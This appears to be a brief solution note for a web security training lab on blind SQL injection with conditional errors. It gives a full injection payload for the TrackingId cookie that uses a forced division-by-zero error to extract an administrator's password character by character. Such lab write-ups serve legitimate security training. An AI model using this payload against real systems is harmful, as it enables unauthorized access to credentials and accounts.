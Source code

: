 # Lab 12: Blind SQL Injection with Conditional Errors

* **Solution**: Use a CASE statement in TrackingId to trigger a division-by-zero error if a condition is true, then extract the admin password by testing each character.
* **Final Payload**:
  * TrackingId=xyz' || (SELECT CASE WHEN SUBSTRING(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator') || ' (repeat for each position)